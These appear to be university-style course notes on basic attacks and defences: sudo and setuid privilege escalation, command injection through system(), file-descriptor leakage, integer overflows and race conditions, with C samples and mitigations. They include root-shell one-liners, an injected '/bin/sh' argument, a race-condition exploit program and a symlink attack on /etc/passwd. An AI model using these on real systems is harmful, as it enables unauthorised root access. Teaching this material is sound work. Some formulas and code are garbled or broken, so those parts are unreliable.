

Basic attacks/defences¶
Privileges escalation¶
Main objective of a hacker is to obtain maximum amount of privileges, this includes, e.g., the possibility to open a shell with root privileges. With this, you can break any security attribute!
| In this first attack : | Why ? |
|---|---|
| Assume that we have an access to the network (and some computer) | Read/Write any sensitive file |
| Assume that we do not have root privileges | Persist easily between reboots |
 Obtain a shell with root
privileges or root information in case shell cannot be obtained. Obtain a shell with root
privileges or root information in case shell cannot be obtained. |
Insert a permanent backdoor |
The sudo case (linux)¶
sudoallows a user to execute a program in the name of another usersudoconfiguration is defined in and can be modifiedExample : Writeaxel ALL = (root) NOPASSWD /home/axel. This will allow user axel to execute any program in his home directory with root privilegesHow can this be exploited? Becoming root is only an opportunity to launch an attack and is not something bad itself. E.g
sudo system.Protection: Limits the content of
/etc/sudousers
The system() case (C)¶
system()takes as argument a shell command that it executes- Weakness : Allows us to execute multiple commandsExample :
system("bin/sh;ls") Protection: Do not allow programs using
system()rather useexecenv()
Hack me I¶
Consider program test owned by axel in axel’s directory (takes a
file as input)
//prints content of file
int main(int argc , char argv) {
char *cat ="/bin/cat";
char *command = malloc(strlen(cat) + strlen(argv[1]) + 2);
sprintf(command, "%s %s", cat, argv[1]);
system(command);
return 0;
}
./test "coucou;/bin/sh"will print content of file coucou and then open a shell. The owner of this shell is the one who executes the program, i.e., axel.sudo ./test coucou;/bin/shwill obtain a shell with root privileges
If we don’t have any source code we can still do somethings in :
(ALL) NOPASSWD: /user/bin/pythonpermits any user to launch python (owned by root) without passwordsudo python -c 'import pty;pty.spawn ("/bin/bash");'gives a shell with root privileges
Limits the content of /etc/sudousers and do not allow programs using
system !
Recap on file¶
ls -ld <nameoffile>. In linux,
each file is attached to a set of rights: read(r), write(w) and
execute(x). Those rights depends on the type of user: owner, group, or
other users and can be modified with command (e.g :
chmod rwx --- --- file)
chmod <owner> <group> <AllOtherUser> <file>
/usr/bin/passwd(aims at user account details) is owned by root but it can be executed by any user of the system- It allows us to modify user’s password and hence
/etc/shadow(aims at user’s password details) owned by root - For doing so, it requires to have the privileges of root when writing into shadow
- This is done by giving the
SET-UIDflag(s) instead of execution flag(x). Principle: If a file hasSET-UIDflag, then it can be executed with privileges of the one who owns it, it allows to run an executable with the permissions of the executable’s owner. Can be done withsudo chmod 4755 file
ls -al file //-rw(s)r-xr-x - The difference with
sudois that it executes a command as another user but only if the original user is allowed to do it. (the user must be allowed previously in/etc/sudoers).
There are also the :
STICKY BITflag(+t): It was first introduced to minimize the time delay introduced every time when a program is executed. The OS checked that if sticky bit on an executable is ON, then the text segment of the executable was kept in the swap space. This made it easy to load back the executable into RAM when the program was run again thus minimizing the time delay. Usually used on directory.SET-GIDflag(sin group) when executed, instead of running with the privileges of the group of the user who started it, runs with those of the group which owns the file: in other words, the group ID of the process will be the same of that of the file. Can also be used on directories, alters the standard behavior so that the group of the files created inside said directory, will not be that of the user who created them, but that of the parent directory itself.
All of these can easily be spotted.
Hack me II¶
Consider program test owned by root and executed by axel.
//prints content of file
int main(int argc , char argv) {
char *cat ="/bin/cat";
char *command = malloc(strlen(cat) + strlen(argv[1]) + 2);
sprintf(command, "%s %s", cat, argv[1]);
system(command);
return 0;
}
./test coucou;/bin/shwill print content of file coucou and then open a shell- If test is owned by root and has
SET-UID, then we obtain a shell owned by root even without sudo and even if you are not root user ! - In fact; NO. The shell that execute
system()may ignore theSET-UIDoption. May be still use full in the future.
Hack me - Leakage¶
Sometimes there is no system() command and we may even loose the
SET-UID but it can be still vulnerable.
/* leakage.c */
void main() {
int fd;
char *v[2];
fd = open("hifile",O_RDWR //root owned file
| O_APPEND);
if (fd == -1){
printf("cannot open file");
exit(0);
}
printf("fd is %d\n", fd);
setuid(getuid()); //we have lost group's owner privileges
v[0] = "/bin/sh";
v[1] = 0; //Hack me :We did NOT close fd before launching the shell and fd has root privileges
execve(v[0],v,0);
}
Assume file hifile belongs to root and contain string hello :
$ ./leakage
fd is 3
$ echo hellocat >&3
$ more hifile
hellocat
$ exit
More? Windows?¶
| Other attacks: | The case of windows: |
|---|---|
| John the Ripper | Admin by default |
| Cron jobs (periodics task on computer) | Cron / at |
Substitute path. and ask root to execute |
Clear in registries or in some files (unattended.xml) |
Integer Overflow¶
An integer overflow occurs when an arithmetic operation attempts to create a numeric value that is outside of the range that can be represented with a given number of digits, either larger than the maximum or lower than the minimum representable value. Can compromise safety/security: crash system, or obtain privileges, or even prepare a buffer overflow, etc. Confusion between safety and security is high here.
| Size | Range | ||
| int | 2 bytes | -32.768 to 32767 | |
| int | 4 bytes | -2.147.483.648 to 2.147.483.647 | |
| unsigned int | 2 bytes | 0 to 65535 | |
| unsigned int | 4 bytes | 0 to 4.294.967.295 | |
| short | 2 bytes | -32.768 to 32767 | |
| unsigned short | 2 bytes | 0 to 65535 | |
| long | 8 bytes | -922 3372036854775808 to 922 3372036854775807 | |
| unsigned long | 8 bytes | 0 to 1844 6744073709551615 | |
| float | 4 bytes | 1.2E38 to 3.4E+38 | (6 decimal places) |
| double | 8 bytes | 2.3E308 to1.7E+308 | (15 decimal places) |
| long double | 10 bytes | 3.4E4932 to 1.1E+4932 | (19 decimal places) |
Encoding principles¶
 bits, one can code
numbers and . bits, up to positive digits and
negative digits and . To retrieve the value,
on bits encoding: take the value of the first
right bits, and subtract .
bits, one can code
numbers and . bits, up to positive digits and
negative digits and . To retrieve the value,
on bits encoding: take the value of the first
right bits, and subtract .Signedness bug overflow¶
Signedness bugs occur when an unsigned (signed) variable is interpreted as signed (unsigned).
- (on 8 bits) 127 + 2 = 01111111+00000010 = 10000001 = -127 (signed) (unsigned)
This can happened when :
- Signed integers are used in arithmetic operations
- Signed integers are compare to unsigned ones. When a signed digit is compared with an unsigned one, they’re both considered unsigned. Check compiler’s specification for more!
/* arithmetic sbo */
int main() {
short nb1, nb2, res; //2 bytes
res = 0;
printf ("enter first digit : "); //10 000
scanf("%hd", &nb1);
printf("enter second digit : "); //22 769
scanf("%hd ", &nb2);
res = nb1 + nb2;
printf("%hd + %hd = %hd \n", nb1, nb2, res); // answer: -32 767
}
/*comparison sbo */
int main() {
int a = 25; unsigned int b = 1000;
if (a>b) printf ("bravo"); //= result
else printf ("failure");
}
/*comparison sbo */
int copy(char * buf , int len){
char kbuf[800]; //buffer overflow
if(len > sizeof(kbuf)) return 1; //Put a negative value for len , it will pass
//But will then be interpreted as a huge positive number by memcpy
return memcpy(kbuf,buf,len); //memcpy takes an unsigned int as third argument
}
Truncation bug¶
Truncation bugs occur when the value assigned to a variable exceeds its capacities.
- On 2 bits, But
 is 3 bits, by truncation one removes the top left
one, hence we get 01
is 3 bits, by truncation one removes the top left
one, hence we get 01
This can happened :
- mostly in arithmetic operations
 This is a software engineering problem, a safety issue but also illustrate a security one link to software reuse/update.
This is a software engineering problem, a safety issue but also illustrate a security one link to software reuse/update.
Famous Truncation bug overflow in video games¶
In Donkey Kong , it is impossible to pass level 22:
- due to an integer overflow in its time/bonus that is saved as an unsigned 8 bits integer
- the game takes the level number a user is on, multiplies it by 10 and adds 40
- this value is coded on 8 bits, hence a maximum of 2^8 1=255
- on level 22: time/bonus number is 260, which gives time bonus of 4
- indeed, 260 (decimal) = 1 0 0 0 0 0 1 0 0, it requires 9 bits
- But only 8 are allowed, and the most significant digit is thus truncated
“Nuclear Gandhi” in Civilization:
- aggressivity level saved as a unsigned 8 bits integer
- Gandhi had 1 as initial value
- could get a bonus of 2 for democracy
- hence leading to 1
- represented with 11111111 … and interpreted as 2^8 1= 255
Beyond classical integer overflow¶
Different types of integers are encoded with different numbers of bits. If one tries to assign a 8 bits variable integer to a 4 bits variable integer, then a truncation occurs. That is, the four biggest bits are not taken into account
this assignment is a type of integer overflow.
int main(int argc , char* argv[]) {
unsigned short s; //Max val = 65535
int i;
char buf[80];
i = atoi(argv[1]); //i=65536 and s=0
s = i ;
if(s>=80) return 1; //pass
printf("s = %d n", s);
memcpy(buf,argv[2],i);
buf[i] = '\0'; // = buf[65536] => buffer overflow
printf("%s n", buf );
return 0;
}
Prevention/Detection¶
Use of preconditions
Perform each individual arithmetic operation using the next larger primitive integer type and explicitly checking for overflow
result = extend(s1) op extend(s2) if (result< MIN || result > Max) then call failure handler endif
Use dedicated classes in some programming languages (e.g BigInteger, Bigdecimal in java)
Use CPU flag postcondition test
(result, flag) = s1 checked_op s2 if (flag) then call failure handler endif
Exploits¶
- Mostly to crash the system, or to obtain very basic game privileges (e.g civilization)
- But then can prepare to “bigger exploits” : Integer overflow can help Buffer Overflow (we have just seen that)
/* Exploits: fail in openssh */
int main(int argc , char* argv[]) {
int nresp = packet_get_int(); //Usually: 32 bits, i.e., 4294 967 296. If nresp = 1 073 741 824
if(nresp > 0) { //sizeof(char*) = 4 bytes (address), unsigned int
response = xmalloc(nresp*sizeof(char*)); //1 073 741 824 * 4 = 4 294 967 296 => max value => truncation to 0
for(i = 0; i < nresp ; i++)
response[i] = packet_get_string(NULL); //buffer overflow
}
}
Exploit Concurrency¶
A race condition involves two (or more) processes, it exploits the
context() switch between the processes and tries to create an
inadequate interleaving. [1] The goal for an attacker is to interleave
its actions with process with legitimate process actions.
Warning
This can be used to get more privileges for example, to read and write non owned files.
Read a file¶
Question
Is there a way to read the new value put in password.txt if not root ?
- P1.L1 creates a file, then P1.L2 restricts access to itself only
- P2 tries to read the file
- If P2 occurs between P1.L1 and P1.L2, then it can read the file,
- If it occurs after P1.L2, then it can’t.
If L1 in exploit.c happens before L3 in race.c , then the file can be
read.
/* race.c Compile program as root and give SET-UID to 1*/
int main() {
struct stat st; FILE* fd ;
if(!stat("password.txt",&st)) {
printf("file already exists n");
return 0;
}
fd = fopen("password.txt", "a"); //L1
fputs("monsupermotdepasse", fd ); //L2
chmod("password.txt", 700); //L3
fclose(fd);
return 0;
}
/* exploit.c */
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
int main(in targc, char* argv [])
int i = 0;
while(i < atoi(argv[1])) {
remove("password.txt");
system("/bin/cat password.txt"); //L1
i++;
}
return 0;
}
$shell1:while true; do ./race; done;
$shell2:./exploit 10000 > result.txt
Write a file¶
We assume that the code has SET-UID flags set to 1 and the code is not
run by root. Can I write on /etc/passwd ? [2]
- Yes, idea :
/tmp/Xcan point out/etc/passwdin between L1 and L2. - In between: delete
/tmp/Xand create a symbolic link/tmp/Xto/etc/passwd - Hard to reach, we should slow down the computer by creating many other attack processes as we can.
if (!access("/tmp/cool", W_OK)) { //L1
f = open("/tmp/cool", O_WRITE); //L2
write_to_file(f); //L3
} else {
fprintf(stderr,"Permission denied n");
}
Well known race condition vulnerabilities¶
| Vulnerability : | Exploit : |
|---|---|
| In Copy On Write, memory operations such as read are made on a copy of a section of memory until a change is made | Obtaining root permissions in Android devices |
| A race condition happens when two different processes are accessing the same page | Modify shell and performs an additional, unexpected functions, such as a keylogger |
| The process which is allowed to write flag the destination page to writable | Link to malware |
However, a context() switch can happen between the time it flags, write, and unflag |
Prevention : make sure that it will not happen
- Static: type based, race free type systemsAssociate a lock to each variable directly in the type
class Tnode<thisOwner, TOwner> { T<Towner> thisOwner; }
Limits: Erase any potential race condition, but burden in annotations, it is limited to what we can write and does not exploit knowledge in thread ordering. - Dynamic and Hybrid Race Detectors: : lockset, happens before.The principle is to detect race condition at runtime and remove all the constraints from type system. It is limited by the false positive (false detection) and false negative (not detected).Locksets:
- Assume each thread t hold a set of locks
locks_held(t) - For each shared variable
v, maintains a set of candidate locksC(v) C(v)contains the locks that should protectvduring the whole computation- Each time
vis accessed, takeC(v)interlocks_held(t) - If intersection is empty, declare potential race condition
- (one lock for the whole duration, else it may be a race condition)
There is no lock to protect v during the entire computation but there is no race conditionProgram lock_held C(v) lock(m1) { } {m1,m2} v=v+1 {m1} unlock(m1) {m1} lock(m2) { } v=v+1 {m2} unlock(m2) { } Too conservative: access without lock alarm. This
may imply false positive. At initialization, shared variables are
frequently initialized without locks. A read-shared data are
variables written at initialization and read-only thereafter and does
not need a lock. Read-write locks allow one single write and
multiple readers but are more complex.Moreover it may miss race conditions (false negative): due to unrecognized thread API, initialization in different threads and some specific case. - Assume each thread t hold a set of locks
- Detection: write a program, and then use a tool to detect (Model checking, static analysis, …)Ultimate solution: Explore all orders, threads of instructions each gives order.Solution: detect feasible races among feasible orders. (e.g
Inferby facebook orLadybug)- Depends on position in development process
Race condition and compiler options¶
void *f(void *v) {
int * i = (int *) v;
i = 0;
printf("set to n");
return NULL;
}
int main() {
const int c = 1;
int i = pthread_t thread;
void* ptr =(void *) &
while(c) {
i++;
if(i == 1000)
pthread_create(&thread, NULL, &f, ptr);
}
printf("done n");
}
Will it always terminate ?
- Depends of
gccoptions - With
-o3(all optimisations): no - Why?
- The variable c is likely to stay local in a register, hence it won’t be shared.
- “volatile” variable
| [1] | https://www.hacktion.be/race-condition/ |
| [2] | Inspired from |